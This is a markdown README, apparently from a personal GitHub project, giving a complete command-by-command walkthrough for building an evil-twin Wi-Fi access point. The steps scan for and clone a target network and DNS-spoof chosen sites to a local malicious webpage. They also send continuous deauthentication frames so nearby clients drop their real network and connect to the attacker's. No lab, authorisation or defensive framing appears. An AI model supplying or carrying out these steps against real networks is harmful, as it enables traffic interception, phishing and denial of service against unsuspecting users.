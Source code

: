 # How to Setup the Evil Network:
This document outlines the steps we took in order to setup an evil twin access point and cause clients to be redirected to a malicious website.

# TODO
- need to capture the specific device with airodump-ng wlan1mon
- must make sure monitoring wlan1 is not connected to internet
- explain all steps in detail
- add screenshots

# Prerequisites
- kali linux
- may need an external usb wifi adapter
- sudo apt-get instal dsniff

1. Update Device and install dependencies
	```
	sudo apt-get update
	sudo apt-get install dnsmasq dsniff mariadb-server
	git clone https://github.com/trustedsec/social-engineer-toolkit/ setoolkit/
	cd setoolkit
	pip3 install  Cython
	pip3 install -r requirements.txt
	python3 setup.py
	```
	
2. Configure dns masq

	`mkdir /Desktop/eviltwin`
	`cd /Desktop/eviltwin`
	`touch dnsmasq.conf`

	Enter these details into dnsmasq.conf:
	```
	interface=at0
	dhcp-range=10.0.0.10,10.0.0.250,12h
	dhcp-option=3,10.0.0.1
	dhcp-option=6,10.0.0.1
	server=8.8.8.8
	log-queries
	log-dhcp
	listen-address=127.0.0.1
	```

3. Update NetworkManager.conf
	`vim /etc/NetworkManager/NetworkManager.conf`
	Add these lines to the end: 
	```
	[keyfile]
	unmanaged-devices:mac=AA:BB:CC:DD:EE:FF, A2:B2:C2:D2:E2:F2
	```

4. View available internet interfaces
	`iwconfig`
	You should see several devices such as eth0, wlan0, lo, etc.
	Now plug in your usb wireless adapter and run the command again.
	`iwconfig`
	You should see your new network device with the name of something like wlan1 for example. You will need this for the next step.

5. Enable the wireless adapter
	`ifconfig wlan1 up`

6. Ensure the wireless card is not connected to internet
	`nmcli con`
	If it is connected, disconnect it from the network that is connected to our adapter
	`nmcli con down <UUID>`

7. Now we will create a monitor interface by putting the wireless adapter into monitor mode.
	`airmon-ng start wlan1`
	You will likely see a message that says to run `airmon-ng check kill` to kill interfering processes. We can safely ignore this.

8. Look at iwconfig again and we can see our new network monitoring device.
	`iwconfig`
	It will have a name such as `wlan1mon`.

9. Find the device to spoof and record the BSSID (mac address), channel, and ESSID
	 first update known manufacturer mac addresses of routers: `airodump-ng-oui-update`
	 Then get a list of all the devices broadcasting around you.
	`airodump-ng wlan1mon`
	Look under the ESSID column for the name of the network you want to spoof.
	When you see it hit `ctrl+c` and then copy that line to a text file.
	Copy down the BSSID (MAC address), CH (channel), and ESSID (Wireless access point name) values.

9. Now for fun, take a look at the devices connected to that network.
	Enter the BSSID from the previous step in this command
	`airodump-ng -d <BSSID> wlan1mon`

9. Lets boost our signal strength, to the max legal limit in the US.
	Note that not all wireless adapters support this.
	```
	ifconfig wlan1mon down     
	iw reg set US              
	ifconfig wlan1mon up       
	```
	Again check the signal strength with `iwconfig wlan1mon`

9. start up the evil twin AP (access point)
	Give the evil twin the same name as the network you are attacking on the same channel.
	`airbase-ng -e "EvilTwinName" -c 11 wlan1mon`
	At this point you should be able to see your evil network listed under the available wireless networks on your phone or computer. 

10. Give the evil twin can access the internet.
	`ifconfig at0`
	give at0 an ip address: `ifconfig at0 10.0.0.1 up`

11. route all traffic through the at0 interface.
	The device wlan0, or eth0 in the second line, must be the interface connected to the internet for this to work. It must be a different interface than the monitoring device.
	```
	iptables --flush
	iptables --table nat --append POSTROUTING --out-interface wlan0 -j MASQUERADE
	iptables --append FORWARD --in-interface at0 -j ACCEPT
	iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 10.0.0.1:80
	iptables -t nat -A PREROUTING -j MASQUERADE
	```
	If these commands give errors we can try to use a legacy version of iptables. do the following and then rerun the commands
	`sudo update-alternatives --config iptables`
	Select the `/usr/sbin/iptables-legacy 10 manual mode` option

12. enable port forwarding: `echo 1 > /proc/sys/net/ipv4/ip_forward`

13. evil twin is now setup, now need to allocate ip addresses to clients
	`dnsmasq -C /root/Desktop/dnsmasq.conf -d`
	Congratulations, you have setup hotspot for yourself.

14. Now we can start a local Apache webserver that we can redirect traffic to.
	Place a webpage under `/var/www/html/index.html`. Ours is named index.html. 
	Start the server: `sudo /etc/init.d/apache2 start`

15. Your apache server is running locally. Record the IP address
	`hostname -I` will give you your devices ip address. Additionally you can use localhost which is `127.0.0.1`

15. Now we can do some dns spoofing.
	Create a file `config/dnsspoof.conf`
	Add urls you want to spoof to it. For example this will redirect anyone trying to visit http://www.example.com to our local apache server. 
	`127.0.0.1	example.com`
	Note that the ip address and url must be separated by a tab, not spaces.
	You can add as many lines like this as you like for redirecting traffic.

16. Now deauthorize clients so they connect to our network instead of their legit network.
	
	`aireplay-ng –deauth 0 -a <BSSID> wlan1mon`



# Caveats
Only works for http websites, not https websites 

## Sources
Follow this tutorial: https://www.yeahhub.com/evil-twin-attack-dnsmasq-wireless-wpa2-psk-cracking/
This one is good too: rootsh3ll.com/evil-twin-attack/





